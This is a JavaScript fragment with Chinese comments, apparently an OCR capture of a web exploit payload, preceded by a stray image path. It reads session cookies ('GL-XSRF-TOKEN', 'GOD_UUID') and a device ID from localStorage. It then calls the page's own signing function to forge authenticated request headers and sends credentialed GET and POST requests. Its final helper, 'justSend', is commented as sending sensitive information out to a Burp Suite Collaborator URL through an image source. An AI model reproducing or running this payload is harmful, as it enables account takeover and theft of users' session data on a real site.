         // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        const myFetch = async (url, headers) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: headers,
                credentials: 'include'
            })
            let res = await data.json();
            return res
        }
        // 构造GET发送请求
        const setHeaderDs = (payload) => {
            var GL_X_XSRF_TOKEN = getCookieValue('GL-XSRF-TOKEN')
            var GL_Uid = getCookieValue('GOD_UUID')
            var checkres = moduleX['0'].gen_sign(payload)
            var checkjson = JSON.parse(checkres)
            var GL_CheckSum = checkjson['sign']
            var GL_Nonce = checkjson['timestamp']
            var GL_ClientType = 61
            var GL_DeviceId = localStorage.getItem('ns-client-id')
            var headers = {
                'GL-CheckSum': GL_CheckSum,
                'GL-Nonce': GL_Nonce,
                'GL-Uid': GL_Uid,
                'GL-DeviceId': GL_DeviceId,
                'GL-ClientType': GL_ClientType,
                'GL-X-XSRF-TOKEN': GL_X_XSRF_TOKEN,
                'Content-Type': 'application/json;charset=UTF-8'
            }
            return headers
        }

        // 构造POST发送请求
        const myPostFetch = async (url, headers, payload) => {
            let data = await fetch(url, {
                method: 'POST',
                headers: headers,
                credentials: 'include',
                body: JSON.stringify(payload),
            })
            let res = await data.json();
            return res
        }

        // 通过img src来向burpsuite collaborator url外送敏感新信息
        const justSend = async url => {
            var Img = new Image
            Img.src = url
        }
